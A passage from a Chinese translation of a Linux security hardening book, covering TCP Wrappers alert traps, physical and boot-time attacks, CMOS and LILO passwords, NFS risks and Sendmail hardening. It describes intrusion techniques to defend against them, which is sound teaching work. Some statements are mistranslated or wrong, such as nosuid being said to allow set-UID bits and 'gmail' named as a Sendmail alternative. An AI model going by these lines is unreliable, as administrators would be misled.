第 5 节中 `hosts_access` 和第 8 节中 `tcpd` 的手册页写得相当不错。

## 2.15.2 TCP Wrappers 的高级使用

在已描述的第二个字段之后，可能有额外的字段。这些可以是零个或多个 shell 命令字段，以及 `allow` 或 `deny` 字段。如果服务和主机匹配，`allow` 将导致服务被允许。类似地，`deny` 将导致服务被拒绝。这使得可以将 `/etc/hosts.allow` 和 `/etc/hosts.deny` 的行合并到一个文件中（如果需要）。

shell 命令可以按任意方式使用，例如日志记录或生成警报。一个清晰的用途是对被拒绝服务的陷阱。这意味着如果有人尝试获取服务并被拒绝，可以发出警报。TCP Wrappers 套件包括 `safe_finger` 程序，可用于“finger”违规系统以获取更多关于潜在黑客的信息。我曾用此方法当场抓住一些非法使用者，并获得了足够的信息来说服他们的 ISP 终止其账户。

典型用法是将以下内容添加到 `/etc/hosts.deny` 文件。请注意，警报邮件将发送至系统管理员的工作和个人电子邮件账户。因此，如果周末对办公系统进行了尝试，问题将在周一早晨之前被发现。该电子邮件还应发送寻呼机地址。TCP Wrappers 配置详细讨论了所有内容：

```
ALL: ALL: spawn=(/usr/sbin/safe_finger -l @%h | \
/bin/mailx -s DENIED %h %d %a U=%u \
you@homesys.com you@pentacorp.com \
)&deny
```

“`%`”字符引入扩展序列。可以根据需要任意使用。识别以下扩展：

- `%a` 客户端的数值地址。
- `%A` 服务器的数值地址（在有多台服务器时很有用）。
- `%c` `user@client_sys`。
- `%d` 守护程序名称。
- `%h` 客户端主机名。
- `%H` 服务器主机名。
- `%p` 服务器的 PID。
- `%s` `daemon@server_sys`。
- `%u` 客户端用户名（如果由 `ident` 提供）。
- `%%` “`%`”字符。

`tcpcp` 程序足够智能，可以用下划线替换“`%`”扩展中可能对 shell 具有特殊含义的任何字符。请注意，与常规 `finger` 程序不同，`safe_finger` 将抵抗来自黑客系统的攻击，如缓冲区溢出攻击和非 ASCII 字符。

## 2.16 物理操作

| 危险等级 |
| :--- |
| 💀💀💀 |

这里讨论了若干黑客通过键盘接管系统的知名方法。⁶ 只有一些入侵需要访问系统的软驱或 CD-ROM 驱动器。当然，高安全系统应保存在锁着的房间中，但即使在被认为相对安全的工程实验室中，也有足够的陌生面孔，使得有人可以在不被注意的情况下将流氓软盘插入系统中。当然，如果入侵者有时间，他们可以简单地拆开机箱并偷走包含专有数据的磁盘。大多数笔记本电脑的硬盘很小，经过少量练习即可在一分钟内移除并藏在口袋里。下次你在旅途中时请记住这一点。

笔记本电脑和其他可能被入侵系统上的机密数据始终应以加密形式存储在磁盘上。`PGP` 在这方面很流行。有一些硬件卡可用于加密写入磁盘的所有数据，并解密从磁盘读取的数据，这样即使有人偷走了磁盘，他们也无法读取你的数据。

2000 年 3 月，Intel 宣布了一种使用新芯片组的新笔记本电脑安全系统。预计它将成为相当流行的系统。不要多疑，但存在键盘幽灵（keyboard ghost），它能够在用户不知情的情况下记录键盘上多达 500,000 次击键。


```
http://www.keyghost.com/
```

### 2.16.1 启动入侵者的软盘或 CD-ROM

| 危险等级 |
| :--- |
| 💀💀 |

如果黑客能够获得对你系统的物理访问权，除非你采取了特殊预防措施，否则他只需将他的伪造软盘、磁带或 CD-ROM 插入你的系统，然后按 `Ctrl-Alt-Delete`，拔掉系统插头，按下重置按钮，或拉下断路器，就可以启动其流氓操作系统，从而绕过你精心安装的安全增强措施。请注意，即使你禁用了键盘和重置按钮，这也将起作用。

一分钟内他就“拥有”了你。请花一点时间思考一下你的物理环境。你是否看到你不认识且未进行询问的人靠近计算机，而你假定他们是某人的男朋友、室友或再次来修复印机的人？在 10 秒内，他可以插入软盘并按下重置按钮或晃动电源插头，然后离开建筑物，因为他甚至不需要等待启动序列完成。

### 2.16.2 CMOS 重新配置

| 危险等级 |
| :--- |
| 💀 |

解决物理入侵和入侵者启动软盘的方法是启动系统并进入 CMOS 配置屏幕，通常通过提示时按 `Delete` 键来实现。这里讨论的命令特定于 Award® 品牌的 BIOS。许多 PC 中使用这种品牌的 BIOS。AMI® 的方法类似。如果你的不同，可能也是类似的。如果没有，可能附近有手册或制造商网站上的帮助。常见的提示消息是：

按 DEL 进入 SETUP

然后按向下箭头，直到菜单选择

# BIOS 功能设置

...高亮显示并回车。在令人眼花缭乱的选项菜单中，通过按下向下箭头键使 **Boot Sequence**（启动顺序）项高亮，然后按下回车键进行选择。这是机器将尝试启动的设备序列。

对于对 DOS 世界一无所知的人来说，设备 "A" 是第一个软盘驱动器（也称为软磁盘，通常指上方单元，相对于下方单元而言），如果 "B" 是第二个软盘驱动器。设备 "C" 是硬盘，而对于拥有多台硬盘的用户来说，设备 "D" 是第二块硬盘。大多数最新的 BIOS 版本还提供 "SCSI" 和 "CD-ROM" 选项。

反复按下 `+` 键，或者可能是 `PageUp` 键，直到显示你通常启动的设备，"C" 或 "SCSI"。你不想选择 "C, A" 选项，因为那样入侵者就可以破坏硬盘的主引导记录（`MBR`），并强制机器从软盘启动。如果后续的损坏问题需要从一套救援磁盘（软盘）启动，你可以更改此设备顺序并返回主菜单。然后按照保存更改并退出的说明进行操作；通常这是通过按下 `F10`、`Y` 和 `Enter` 键来实现的。

此外，配置 CMOS 以禁用所有你不需要使用的串行和并行设备也是一个好主意。这将防止某人将设备连接到串行端口，或防止将软盘驱动器、Zip 驱动器或 CD-RW 刻录机连接到并行端口。

### 2.16.3 添加 CMOS 密码


为了防止入侵者篡改你为安全和正确操作而配置的 CMOS 设置，你需要按照以下步骤添加一个 CMOS 密码。这将使得 CMOS 代码在执行任何重要操作之前都会要求输入此密码。

- 1. 重新启动你的系统，在提示时，按下 `Delete` 键进入 CMOS 菜单。常见的提示是 `Press DEL to enter SETUP`（按 DEL 进入设置）。
- 2. 移动向下箭头，直到高亮显示一个菜单选项，其内容类似于 `CMOS Password`（CMOS 密码）或 `SUPERVISOR PASSWORD`（监督密码）。
- 3. 按下回车键并输入所需的密码。立即写下密码，并将其安全地归档存放，确保你在一年后的凌晨 3 点需要从救援磁盘启动时能想起去查看它。第二次输入密码以确认。
- 4. 移动向下箭头，直到高亮显示菜单选项 `SAVE & EXIT SETUP`（保存并退出设置），按下回车键、`Y` 键，然后再按一次回车键（或者 `F10`、`Y`、`Enter`）。

现在，入侵者将无法更改 CMOS 设置，例如，无法启用软盘启动以使用他们自己的 UNRescue 磁盘控制该系统。

如果入侵者在将 CMOS 设置更改为仅从不存在的硬件启动之后修改了 CMOS 密码怎么办？如果另一位系统/管理员在你去内陆地区度假之前忘记告诉你密码怎么办？

一些主板有一个跳线，可以临时设置以擦除 CMOS 密码。有些主板如果在上电启动时按住 `Insert` 键将会关闭该功能。对于其他一些主板，你只需在系统断电的情况下移除 CMOS 电池大约 30 秒即可。需要物理安全措施来防止这些入侵。请记住，移除电池会导致其他重要的配置设置也丢失。（记录系统中每一个 BIOS 设置到一个地方真的是个好主意。）

### 2.16.4 防御单用户模式


Linux 通常以多用户模式启动。这允许安全的启动系统，因为它跳过了单用户模式，在单用户模式下无需输入 root 密码就会提供 root shell。[27] 有时，由于配置错误或根分区损坏，系统将无法完成启动序列进入多用户模式。为了让人能够“控制”这样的系统，`LILO`[28] 允许请求让 Linux 以单用户模式启动。在单用户模式下，`/etc/init` 只会启动少量内容，而不是大量的守护进程。要在单用户模式下启动，请在 LILO 提示符处输入 `single` 而不是 `linux`。

> Red Hat 和大多数其他发行版在启动时会调用 `fsck` 并执行比必要更多的操作。大多数 UNIX 版本在启动单用户模式时只执行绝对最少量的操作，以最小化文件系统损坏或配置错误情况下发生的问题。

有几种不同的方法可以防止这种情况。所有方法都涉及修改 LILO 的配置文件，通常存储在 `/etc/lilo.conf` 中，并执行

```
lilo
```

将这些指令存储在主引导记录（`MBR`）中。虽然严格来说不需要重新启动，但你肯定希望重新启动一次以验证更改是否生效。

最灵活的方法是要求如果将启动选项传递给启动加载器，则必须输入密码。这特别有用，因为它可以防止未经授权的人员启动到单用户模式，同时允许任何人启动多用户模式，例如在崩溃之后。添加以下两行。任一行都可以是全局的或针对特定镜像的。

```
restricted
password=secret
```

务必确保该配置文件只能由 root 读取：

```
chmod 600 /etc/lilo.conf
chown root /etc/lilo.conf
```

另一种防止单用户模式的方法是在 `/etc/lilo.conf` 顶部的全局命令部分将超时设置为零，从而不允许任何人通过键盘向 LILO 发出任何命令。（这是 Orange Boot C2 安全要求之一。）

```
timeout=0
```

最后，通过在 `/etc/lilo.conf` 顶部的全局命令部分（在针对特定镜像部分之前）添加如下行来禁止自动重新启动

```
prompt
```

因此，如果攻击者以某种方式远程修改主引导记录，安装新内核，或以其他方式安排造成混乱，他们无法启动新的系统配置。当然，由于 Linux 非常可靠，你应在任何崩溃后调查是否有可能是攻击者造成的。

对于防止攻击者系统的 `/etc/lilo.conf` 中的所有条目都需要是安全配置的的内核，例如 Linux 内核或类似的。换句话说，它们中的任何一个都不应提供单用户模式或具有宽松文件权限的文件系统。它们不应是不安全的操作系统。对于非 Intel 硬件的用户，可能存在类似的能力。

[27] Linux 启动时的默认模式在 `/etc/inittab` 文件中以以 `:initdefault:` 结尾的行指定。此冒号前的数字是模式。对于具有网络的多用户模式，通常数字是 "3"，看起来像 `id:3:initdefault`。

[28] 其他常见模式包括用于无服务器多用户模式的 "2"，以及用于单用户模式的 "1"。

[29] `LILO` 程序是 Intel 硬件的 LINUX 加载程序。Alpha 和 Sun 硬件的启动加载器 `milo` 和 `silo` 中，以及 PowerPC 和 StrongARM 架构的启动加载器中，可能具有类似的功能。

### 2.16.5 挫败通过软盘窃取数据


大多数人现在不再把软盘看得很严重了。毕竟，一个 3-1/2 英寸的软盘只能容纳 1.44 MB；要存储一个常见的 20 GB 磁盘的数据，需要 14,000 个这样的软盘。尽管如此，它仍可以容纳大约 10,000 名员工的姓名、家庭住址、家庭电话号码和职位头衔，甚至都不用压缩，这足以让猎头（招聘者）非常高兴。软盘可以容纳大量的源代码、客户名单或规格说明。多年来，大量公司数据就是通过这种方式被窃取的。

窃取数据的其他方法包括将调制解调器连接到串行端口并发送数据，或者将打印机、并行端口 CD-ROM 刻录机或磁盘驱动器插入并行端口并复制数据。也要考虑 USB 提供的可能性。解决这些问题的方法是进入 CMOS 菜单，如前几节所述，并禁用不需要的外围设备。

### 2.16.6 挫败 Ctrl-Alt-Delete 攻击


前面讨论的修复措施将阻止物理入侵者进行入侵。强制重新启动或关闭系统肯定是一种 DoS 攻击。在不受保护的系统中，标准的 `Ctrl-Alt-Delete` 序列会在几秒钟内关闭系统。

可以通过在 `/etc/inittab` 中注释掉默认条目来禁用此序列。带有 `ctrlaltdel` 标签的条目可以使其看起来像以下这样：

```
#ca::ctrlaltdel:/bin/shutdown -t5 -rfn now
```

编辑 `/etc/inittab` 后，你需要使用命令 `telinit q` 告诉 `init` 重新读取它。

或者，`shutdown` 命令可以替换为另一个命令，也许是生成电子邮件的 shell 脚本，这将通知你一个新对 Linux 不熟悉的使用者需要你的帮助，或者某个恶意的人正在键盘前操作。

虽然从 2.2 内核开始有一个 `/proc/sys/kernel/ctrl-alt-del` 文件，但在 0 和 1 之间切换其值似乎并不能抑制系统在三指礼（即按下这三个键）时重启。

## 各子系统的常见攻击手法

本章将讨论常见子系统的已知常见弱点和重要的配置技术。有些服务你无法没有，例如 `Sendmail` 和 `DNS`。其他服务本质上是不安全的，如果要维持安全性，则必须在安全和受控的环境之外不得使用。

本章涵盖的主题包括：

- “`NFS`、`mountd` 和 `portmap`”，见第 120 页
- “`Sendmail`”，见第 122 页
- “`Telnet`”，见第 138 页
- “`FTP`”，见第 138 页
- “`rsh`、`rcp`、`rexec` 和 `login` 服务”，见第 146 页
- “`DNS`（`named`，又称 `BIND`）”，见第 149 页
- “`POP` 和 `IMAP` 服务器”，见第 152 页
- “玩转 `Samba`”，见第 156 页
- “阻止 `Squid` 暴露踪迹”，见第 175 页
- “`syslog` 服务”，见第 178 页
- “打印服务（`lpd`）”，见第 179 页
- “`ident` 服务”，见第 179 页
- “`INND` 和新闻组”，见第 180 页
- “保护您的 `DNS` 注册信息”，见第 181 页

### 3.1 NFS、mountd 和 portmap


`NFS` 是网络文件系统（Network File System）的缩写。它允许客户机系统将 `NFS` 服务器系统的远程文件系统“挂载”，就好像这些文件系统直接位于客户机系统上一样。`Samba` 和 `AppleTalk` 最近也创建了类似的功能。`NFS` 是一项强大的功能。不幸的是，它存在许多安全问题，其中一些问题无法通过不兼容的协议更改来解决。因此，建议除在受不安全网络（如互联网）保护的私有安全网络上外，否则完全不要使用它。

请回顾第 92 页的“关闭 `mountd` 和 `portmap`”和第 93 页的“将 `NFS` 切换为通过 `TCP` 运行”，许多问题已在那里深入讨论。这些问题是什么，以及在什么条件下可以绕过它们？

- 1. `UDP` 是不安全的，因为它可以被欺骗。这可以通过适当配置的防火墙保护 `NFS` 系统（服务器和客户机）的网络免受不安全网络的入侵，并确保只有运行操作系统且受信任的系统可以连接到网络，从而解决。该防火墙需要知道哪个 IP 地址在哪个界面上，并拒绝在非“真实”系统（具有该 IP 地址的系统）的界面上接收到的数据包。如果路由系统运行 Linux（至少是 2.2 内核），则甚至不需要防火墙，因为内核提供源地址验证功能。此功能使内核能够阻止来自错误接口的具有欺骗源地址的数据包。
- 2. 该网络上的所有系统都需要防范不可信人员拥有 `root` 访问权限。这是为了防止那些拥有物理或网络访问权限的黑客简单地从一个“内部”系统进行欺骗以攻击您的 Linux 和 UNIX 机器。对于 Windows 和 Mac，需要简单的密码保护，防止不可信人员对其物理访问将增加安全性。这是因为它们拥有不同于 Linux 的安全模型（许多人认为许多闭源操作系统在安全性上显著低于 Linux）。
- 3. 系统需要保护免受攻击者通过软盘、`CD-ROM` 启动自己的操作系统，或获取单用户模式启动盘的威胁。这从第 114 页的“启动入侵者的软盘或 `CD-ROM`”开始讨论。由于 `NFS` 的设计，`NFS` 服务器将在启动过程中被入侵。
- 4. 要理解 `NFS` 是在所有计算机都庞大且昂贵、只有受信任的系统管理员拥有 `root` 访问权限、系统保存在锁定的房间内且访问受到严格限制的时代创建的。任何拥有 `root` 访问权限的人都可以修改她的客户机，以获取任何 `NFS` 服务器提供给网络中任何客户机的任何 `NFS` 访问权限。这只需修改客户机系统的 IP 地址并据此获得 `NFS` 服务器允许访问的任意账户的特权即可实现。
- 5. 确保不受保护的系统无法将数据包发送到您的 `NFS` 服务器，已挂载的 `portmap`（或 `NFS` 客户机）是可以被欺骗的。这意味着使用 `IP Chains`（最好在防火墙上）或源地址验证来阻止来自不受信任和不需要的系统的 `UDP` 和 `TCP` 端口 `2049`（`NFS`）和端口 `111`（`portmap`）。
- 6. 在挂载 `NFS` 文件系统时使用适当的选项。最重要的选项如下：`tcp` 选项将使 `NFS` 使用 `TCP` 而不是 `UDP`。由于使用随机数的三次握手，`TCP` 更难被欺骗。`nosuid` 选项将允许 Linux 内核生成文件上的任何 `set-UID` 或 `set-GID` 位。`noexec` 选项将防止执行文件系统上的任何程序。
- 7. 使用 `/etc/exports` 条目中可用的选项来增加安全性。特别是，`ro` 选项使文件系统变为只读，当不需要写入时很有用，`noaccess` 选项用于阻止对子树的访问也很有帮助。不要使用 `no_root_squash` 来禁用 `root_squash`。

> 即使有 `root_squash`，非 `root` 用户也可以修改 `root` 稍后调用的程序，从而“拥有”该机器。

使用 `squash_uids=0-15,20` 来压缩 `UID` 0–15 和 20。这意味着如果远程用户声称自己是 `UID` 1，则将其视为服务器系统上的 `nobody` 账户。该账户被认为不拥有任何文件，并且仅允许全球授予的访问权限。如果合适，使用 `all_squash` 将所有用户视为 `nobody`。另一种可能性是使用 `map_static=/etc/nfs/nervous.map` 来使用将远程 `UID` 映射到适当本地 `UID` 的列表。典型的 `nervous.map` 文件看起来像这样：

| #ID | 服务器 | 注释 |
| --- | --- | --- |
| `uid 0-99` | | # 压缩 `UID` |
| `uid 100-999` | 1000 | # 将 100-999 映射到 1000-1999 |
| `gid 0-99` | | # 压缩 `GID` |
| `gid 100-999` | 1100 | # 将 100-999 映射到 1100-2099 |

### 3.2 Sendmail


几乎每个 Linux 环境都运行 `Sendmail` 并允许世界上任何系统连接它。它需要 `root` 权限来打开其特权端口（`TCP` 端口 25）并启用其所有功能。对于内核，可能还有 `X`，`Sendmail` 可能是 Linux 最复杂的组件，你也许要花一生去学习它。假设您的系统已升级到 `Sendmail 8.10` 或更高版本，并且您已经应用了在第 101 页的“升级 `sendmail`”和第 103 页的“加强 `sendmail` 以抵御 `DoS` 攻击”中讨论的建议。我们将从这里开始。

> 虽然目前认为 `Sendmail 8.9.3` 及以上版本是安全的，但在那一版本和 8.10 之间，配置文件格式发生了巨大变化。与其要求系统管理员成为解决具有挑战性的 `sendmail.cf` 格式问题的专家，这一变更允许编辑不那么具有挑战性的 `sendmail.mc` 文件来进行常规配置更改。还有其他改进

如果您的 `Sendmail` 版本低于 8.9.3，则存在已知的缓冲区溢出漏洞和垃圾邮件中继漏洞，因此您希望立即升级。请参阅第 101 页的“升级 `sendmail`”了解升级 `Sendmail` 的详细信息。这里将讨论与 `Sendmail` 相关的各种问题及其解决方案。`Sendmail` 有其他常见的替代方案，如 `postfix` 和 `gmail`。许多人认为这些比 `Sendmail` 更容易使用且更安全。现在，`Sendmail` 的创建者 `Eric Allman` 创立了资金充裕的 `Sendmail, Inc.`，`Sendmail` 因此获得了良好的支持和新功能。许多安全专家推荐使用 `postfix` 程序，认为它比 `Sendmail` 更安全。它由最受尊敬的 Linux 开发者之一 `Wietse Venema` 在 `IBM TJ Watson` 研究实验室开发，该实验室是世界顶尖的研究实验室之一。

我对沃森实验室（`Watson Lab`）有着美好的回忆，因为这是我第一次学习编程的地方，当时是在强大的 `IBM 360/90` 上使用 `APL` 语言。我还在那里接触了高压、高真空和低温环境。


Postfix 程序从底层设计之初就将安全性放在首位，并采用“安全环”（Rings of Security）模型来最大限度地减少单点安全故障。所采用的一种技术是使用彼此协作的独立进程分别与互联网交互、接收本地发起的邮件以及在本地投递邮件。与互联网交互的进程没有权限执行任何有害操作。

只有组成 Postfix 的其中一个进程——主控进程（`master`）——以 `root` 身份运行，而且它不与互联网进行交互；所有 Postfix 程序都可以被 `chroot` 化（限制在特定的根目录内运行）。通过这种方式采用独立进程，入侵者若要攻破系统，必须突破多个进程而非仅仅一个，这要难得多。

这与 Sendmail 不同，后者运行单一 `root` 进程，因此如果任何可执行的代码行存在安全漏洞，该程序就会失守。（在附录 C 中，提供了一个 URL，解释了如何配置 Sendmail 使其不以 `root` 身份运行。）Postfix 程序可以从 `www.postfix.org/` 链接到的任一镜像站点下载。

## 3.2.1 使用独立或多台邮件服务器以增强安全性

| 危险等级 |
| :--- |
| ☠ ☠ ☠ ☠ |

希望最新版本的 Sendmail 是安全的。据我所知，没有关于 Sendmail 8.10 存在漏洞的报告，前提是其配置得当。它对某些可能危害安全的常见配置错误提供了一些自动检查。鉴于过去存在的安全问题，许多站点选择在 DMZ（非军事区）中部署一个专用系统，仅用于处理邮件。这样，如果发现漏洞，可遭受破坏的范围会小得多。这种损害是有限的，因为该系统上唯一有价值的数据是 `spool` 目录中的电子邮件。这些邮件正在等待通过 POP 或 IMAP 下载。如果邮件是机密信息，应当使用 PGP 进行加密。

一些站点会更进一步，设置两台邮件服务器——一台在 DMZ 中对外可见（外部邮件服务器或 Xmail），另一台位于主防火墙内部（内部邮件服务器或 Imail）。来自互联网的邮件先到达 Xmail，然后由 Xmail 发送给 Imail。Imail 将邮件提供给用户，可能通过 POP 或 IMAP。正如第 133 页“阻止垃圾邮件”一节所述，Xmail 服务器可以严密地过滤垃圾邮件。内部生成并 destined for 互联网的邮件会发送到 Imail，然后 Imail 将其发送给 Xmail，由 Xmail 负责将其转发至目的地。

DMZ 与内部网络之间的防火墙规则应阻断所有端口 25 的流量以及来自互联网流向 Xmail 的流量，但允许流向 Imail 端口 25 的流量以及来自 Imail 流向 Xmail 端口 25 的流量。此配置可防止外部站点直接攻击防火墙内部的任何系统。内部电子邮件不会离开受保护的内部环境。攻击者必须先攻破两个系统（Xmail 和 Imail）之一——其中一个在防火墙之后——才能开始攻击一个不可替换的内部系统。

## 3.2.2 基本的 Sendmail 安全性


请记住，通常 `sendmail` 以 `root` 身份运行，并访问许多不同的文件。这些文件（以及通往它们的所有目录）如果是配置文件，必须具有正确的权限和所有权以确保适当的安全性。例如，如果 `/etc/sendmail.cf` 可被所有人写入，则不存在安全性。

在 Red Hat 7.3 中，`sendmail.cf` 位于 `/etc`，`sendmail` 位于 `/usr/sbin`，而 `mqueue` 目录位于 `/var/spool`。在其他发行版中可能有所不同。`sendmail` 程序、`sendmail.cf` 和 `/var/spool/mqueue` 应由 `root` 拥有，且只有所有者应具有写权限。除了所有者 `root` 之外，没有理由让任何人阅读这些文件，尽管这不应产生任何安全差异。在正常安装中，`sendmail` 程序必须设置为 `root` UID，并且它作为守护进程运行。

> 参见第 600 页的“无 Root 的 Sendmail”，获取一个网站 URL，该网站解释了如何配置 Sendmail 使其无需以 `root` 身份运行，以及如何通过 `inetd` 调用它以享受 TCP Wrappers 的好处。

Sendmail 使用的其他配置文件（及其目录）不得允许所有人写入。这一点对于以下文件尤为重要：

- `aliases`
- `aliases.db`
- `mailtable`
- `mailtable.db`

`alias`（别名）功能允许系统管理员安排将发往特定地址的电子邮件作为标准输入发送给任何程序。这是一个非常棒且功能强大的特性，有许多用途。它可以用于触发几乎任何事件，例如生成邮件列表摘要、操作 X10 设备¹，以及当具有动态变化 IP 地址的系统发生变动时，更新相邻系统的 `/etc/hosts` 文件。

由于被调用的程序以 `root` 身份运行，使用此功能除非程序编写得非常谨慎，否则会产生安全漏洞。这些问题与 CGI 程序非常相似，只是 CGI 程序通常不以 `root` 身份运行。

验证您的 Sendmail 版本是否不支持 `debug`、`wiz` 或 `kill` 命令。可以通过连接您的 Sendmail 并如下发出这些命令来测试。

```
telnet mail.pentacorp.com smtp
220-mail.pentacorp.com Sendmail 8.9.3/8.8.7 ready at 6 Sep 2000 22:20
220 SMTP spoken here
wiz
500 Command unrecognized
debug
500 Command unrecognized
kill
500 Command unrecognized
quit
221 mail.pentacorp.com closing connection
Connection closed by foreign host.
```

在这个例子中，测试的 Sendmail 不支持不安全的命令，因此免受这些威胁。如果您收到除“500 Command unrecognized”以外的任何响应，则需要升级您的 Sendmail 版本。

对于较旧的 Sendmail 安装，请在 `/etc/sendmail.cf` 文件中搜索以 `OW` 开头的行。

“`o`”命令启用了“`w`”选项。如果启用了“`w`”选项，将接受向导密码；许多黑客知道这个密码。以下命令可以找到它：

```
grep '^OW' /etc/sendmail.cf
```

这就是向导密码。如果它看起来不像以下行，则应更改为类似的样子。这将禁用向导密码。如果不这样做，将为任何知道向导密码的人提供一个 shell 访问权限。

`OW*`

1. X10 是一组廉价遥控器设备，用于控制家庭和商务用途的几乎所有电器，非常受欢迎。它们可以通过任何具有串行连接的计算机进行控制，并且有适用于 Linux 的软件。

检查 `/etc/aliases` 文件，并分析任何输出到程序而非邮箱的别名。如果存在 `decode` 别名，请将其移除，因为它会引入漏洞；它看起来像：

```
decode: "/usr/bin/uecode
```

比移除 `decode` 别名更好的做法是，将其邮件发送给 `root` 以提醒可能存在攻击，条目如下：

```
decode: root
```

电子邮件可能会在 `/etc/passwd` 中任何账户的邮箱中积累。其中一些账户并非供人类使用。发送给这些账户的电子邮件应重定向到由系统管理员阅读邮箱的账户（或丢弃），以避免随时间推移积累数兆字节的数据。务必提供 `abuse`、`Postmaster` 和 `MAILER-DAEMON` 邮箱，因为这些都是网络礼仪所预期的。许多站点还提供 `sales` 和 `support`。以下是很典型的配置。

- `sysadm`: `spock`
- `sales`: `jtfasttalker`
- `support`: `nopatience`
- `abuse`: `root`
- `Postmaster`: `root`
- `MAILER-DAEMON`: `Postmaster`
- `bin`: `root`
- `daemon`: `root`
- `adm`: `root`
- `lp`: `root`
- `sync`: `root`
- `shutdown`: `root`
- `halt`: `root`
- `mail`: `root`
- `news`: `root`
- `uucp`: `root`
- `operator`: `root`
- `games`: `root`
- `gopher`: `root`
- `ftp`: `root`
- `nobody`: `root`
- `xfs`: `root`
- `gdm`: `root`

在对 `/etc/aliases` 文件进行任何更改后，执行命令 `newaliases` 以将 `/etc/aliases` 文件编译成 Sendmail 实际使用的 `/etc/aliases.db` 数据库。如果 `/etc/sendmail.mc` 文件中存在以下行：

- `O AutoRebuildAliases`

则不需要 `newaliases` 命令。在这种情况下，行

`Oa5`

将导致 `/etc/aliases` 文件在更改后的五分钟内被编译到 `/etc/aliases.db`。（旧版本的 Sendmail 使用 `ODTrue`。）

## 3.2.3 Sendmail 安全选项


| 危险等级 |
| :--- |
| 💀 💀 💀 |

最新版本的 Sendmail 具有许多大多数站点希望使用的安全选项。首先将讨论这些选项及其影响。然后解释如何启用它们。设置“`authwarnings`”选项将导致 `sendmail` 在检测到配置中某些不安全特性时发出警告。`Sendmail` 提供了 `VRFY`（验证）命令，任何互联网站点都可以使用它来询问您的 `Sendmail` 一个电子邮件地址是否有效。垃圾邮件发送者使用此来猜测电子邮件地址。他们会尝试 `joe`、`sally`、`smith` 等，记下哪些是有效的，以便日后发送垃圾邮件。黑客可以使用此技术确定账户名称，从而开始猜测密码，使他们的任务变得容易得多。`Sendmail` 不需要 fork 进程、锁定邮箱或执行其他耗时操作，这是一个对垃圾邮件发送者来说非常高效且快速的操作。您将需要移除这种效率，以便垃圾邮件发送者无法收割如此多的电子邮件地址。

> 用户的电子邮件名称可以与账户名称不同，以向黑客隐藏账户信息。`sendmail` 的 `/etc/alias` 文件可用于将传入电子邮件路由到适当的账户。对于传出电子邮件的翻译有多种选择。某些邮件程序使用 `$REPLYTO` 环境变量来指定发件人，如果该变量已定义。或者，您可以在适当的 `sendmail` 表中放置一个条目。

几乎所有站点都应禁用 `VRFY` 命令。这可以通过“`novrfy`”选项来完成。

`EXPN` 命令与 `VRFY` 命令相似，`EXPN` 会展开（显示）邮件别名和邮件列表的实际投递地址。这将允许你在以后决定从 Internet 屏蔽对该别名的访问时收集电子邮件地址。例如，要查看别名邮件列表展开后的内容（假设它存在），请向 `sendmail` 发送以下请求：

`EXPN all all`

此 `EXPN` 功能通过 "`noexpn`" 隐私选项被禁用。

同样，应指定 "`restrictmailq`" 隐私选项，以防止 `Mail` 告知任何询问者邮件队列中的内容。它只允许与邮件队列同组的用户查看此数据。

"`needmailhelo`" 隐私选项将要求客户端系统在接收邮件之前先使用 `HELLO` 命令进行身份标识。`HELLO` 命令会导致通过 `syslog` 记录发送系统的主机名和数字 IP 地址。如果发送系统正在运行（认证服务），用户名称或 UID 也会被记录。因此，任何恶作行径都可以追溯到肇事者。当然，如果肇事者拥有该发送系统，他们可以发送伪造数据。

默认情况下，`Sendmail` 不会限制守护进程在监听 25 端口时分叉的子进程数量。这允许通过在短时间内向你的系统发送大量消息来进行拒绝服务（DOS）攻击，从而使进程表或打开的文件描述符数量饱和。

当然，攻击者可以启动一个到 25 端口的 TCP 连接，让程序休眠，再启动第二个到 25 端口的 TCP 连接以生成第二个子进程，并如此重复。攻击者可以使用多个被攻陷的系统。

针对此 DOS 的解药是在 `/etc/sendmail.mc` 中添加 `confMAX_DAEMON_CHILDREN` 定义，指定你允许的最大同时子进程数。这将在生成的 `sendmail.cf` 文件中添加 `O MaxDaemonChildren=25` 这一行。参见表 3.1。

`sendmail` 程序与 Linux 的其他几个部分存在一个问题，包括 `named`、`ftpd` 和典型的 `telnet` 配置文件。这个问题在于 `sendmail` 会愉快地告诉任何询问者其版本号。这使得窃贼更容易知道针对哪些漏洞发起攻击。

同样，在 1980 年左右，帮助调试系统之间的兼容性问题是个好主意。但今天这是一个糟糕的主意。它允许窃贼攻击全球的邮件进程，并等待特定版本中发现新的漏洞。然后，他们立即知道可以攻入哪些系统。

解决方案是另一个“单行代码”。将问候消息更改为不包含告知 `Sendmail` 版本的 "`$v`" 宏或揭示 `sendmail.cf` 版本的 "`$z`" 宏。后者强烈暗示了 `sendmail` 程序可能处于的版本范围。可以使用文本编辑器从 `/etc/sendmail.mc` 文件中删除字符串 `$v` 和 `$z`。

要启用所有这些安全功能（建议这样做），请确保 `/etc/sendmail.mc` 包含表 3.1 中的所有条目。

### 表 3.1 Sendmail 安全选项

- `define(`confPRIVACY_FLAGS`, authwarnings nofrfp noexpn restrictmailq needmailhelo)`

- `define(`confMAX_DAEMON_CHILDREN`, 25)`

- `define(`confSMTP_LOGIN_MSG`, $j Sendmail Secure/Rabid; $b)`

编辑 `/etc/sendmail.mc` 后，执行以下 shell 命令以使更改生效：

```
m4 /etc/sendmail.mc > /etc/sendmail.cf
/etc/rc.init/sendmail restart
```

请注意，`m4` 是 Linux 和 UNIX 的通用宏处理器。`/etc/sendmail.mc` 文件包含主要定义文件 `/usr/lib/sendmail-cf/m4/proto.m4`。最常更改的项目列在 `/etc/sendmail.mc` 中；这是为了让系统管理员免于学习 `sendmail.cf` 文件具有挑战性的细节。`sendmail.cf` 文件现在由上述显示的 `m4` 命令生成；它不再被直接编辑。相反，要更改 `/etc/sendmail.mc` 中未列出的项目，需要编辑 `/usr/lib/sendmail-cf/proto.m4`。

要检查你的更改是否有效，以及 `VRFY` 和 `EXPN` 是否已被禁用，请通过 `telnet` 连接到 25 端口（`smtp`），并发出这些命令以验证 `sendmail` 是否拒绝执行和遵守它们：

```
telnet mail.pentacorp.com smtp
220-mail.pentacorp.com Sendmail Secure/Rabid; 6 Sep 2000 22:25
220 SMTP spoken here
VRFY foobar
252 Cannot VRFY user; try RCPT to attempt delivery (or try finger)
EXPN foobar
502 Sorry, we do not allow this operation
quit
221 mail.pentacorp.com closing connection
Connection closed by foreign host.
```

